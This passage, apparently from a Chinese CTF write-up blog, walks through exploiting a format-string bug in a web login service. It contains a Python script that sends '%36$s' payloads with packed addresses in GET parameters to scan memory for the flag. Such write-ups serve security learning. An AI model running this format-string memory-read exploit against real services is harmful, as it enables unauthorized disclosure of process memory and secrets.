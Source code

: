 结果：  
![image](https://img2023.cnblogs.com/blog/3243444/202308/3243444-20230814181917409-161249043.png)

##### 堆偏移

输入：  
![image](https://img2023.cnblogs.com/blog/3243444/202308/3243444-20230814181921010-1042862599.png)  
结果：  
![image](https://img2023.cnblogs.com/blog/3243444/202308/3243444-20230814181925148-1659996583.png)

#### 2.3 任意地址读

**这题学到了GET请求的方式，以及POST，以后遇到http的题目再也不怕啦！**  
**存着好好学学。**

要注意，先登录一下，并且点开界面还有readme.txt，让他把堆地址都载入栈中(执行相应malloc)。  
注意有时候输出的%s太大会崩……

    from evilblade import *
    import requests
    
    context.log_level = 'debug'
    
    value = p64(0x55d023f147a0)
    #这里写使用%15059$p手动泄露的地址。
    value1 = value
    value2 = value
    
    url = "http://106.75.63.100:34897/login"
    #这里写ip和端口
    
    while True:
        #加的
        value1 = p64(u64(value1)+0x10)  # 增加0x10的步长
        params1 = {
        "user": b'%36$s---' + value1,
        "password": "a"
        }
        #user 这么写是因为本身偏移是35,但是一开始写地址的话存在\x00截断
        #所以把地址写在了后面，就变成偏移36了
        #并且这里除了%36$s还要填充八个字节，保证对齐
        dpx('nows value1',u64(value1))
        response1 = requests.get(url, params=params1)
        dp('message\n', response1.text)
    		#dp就是dataprint，我自己库 魔刀千刃evilblade 的实现函数。
        if 'CTF' in response1.text:
            break
    
        value2 = p64(u64(value2)-0x10)  # 减少0x10的步长
        params2 = {
        "user": b'%36$s---' + value2,
        "password": "a"
        }
        dpx('nows value2',u64(value2))
        response2 = requests.get(url, params=params2)
        dp('message\n', response2.text)
    